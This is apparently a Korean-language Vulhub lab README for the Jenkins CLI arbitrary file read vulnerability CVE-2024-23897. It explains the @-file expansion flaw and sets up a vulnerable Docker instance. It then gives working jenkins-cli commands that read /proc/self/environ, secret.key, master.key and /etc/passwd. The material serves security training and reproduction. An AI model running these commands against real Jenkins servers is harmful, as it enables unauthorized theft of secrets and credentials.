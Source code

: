 # CLI를 통한 Jenkins 임의 파일 읽기(CVE-2024-23897)

[중국어버전(Chinese version)](README.zh-cn.md)

Jenkins는 오픈소스 자동화 서버입니다.

Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 구문 분석합니다. 이 명령 구문 분석기는 인수의 @ 문자 뒤에 오는 파일 경로를 파일 내용으로 대체하는 기능(expandAtFiles)을 가지고 있으며, 이를 통해 공격자는 Jenkins 서버에서 임의 파일을 읽을 수 있습니다.

이 취약점은 Jenkins 2.441 이전 버전에 영향을 미칩니다.


참고:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 취약점 발생 환경

Jenkins 서버 2.441을 시작하려면 다음 명령을 실행하세요.

```
docker compose up -d
```

서버가 시작된 후 `http://your-ip:8080/` 을 통해 Jenkins 서버에 액세스할 수 있습니다. 기본 관리자의 사용자 이름과 비밀번호는 `admin`과 `vulhub` 입니다.


## 취약점 공격(익스플로잇)

먼저 `http://localhost:8080/jnlpJars/jenkins-cli.jar` 을 통해 명령줄 클라이언트 `jenkins-cli.jar` 를 다운로드해야 합니다.

`/proc/self/environ` 파일을 읽어 Jenkins 기본 디렉터리인 `JENKINS_HOME=/var/jenkins_home` 을 가져옵니다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

![](01.png)


이 명령을 사용하면 `secrets.key` 또는 `master.key` 와 같은 민감한 파일을 익명으로 검색할 수 있습니다(명령줄에서 오류가 발생하면 파일의 첫 번째 줄만 읽을 수 있습니다).

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![](02.png)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![](03.png)

"익명 읽기 액세스 허용"이 켜져 있으므로 전체 콘텐츠도 읽을 수 있습니다. 파일:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](04.png)
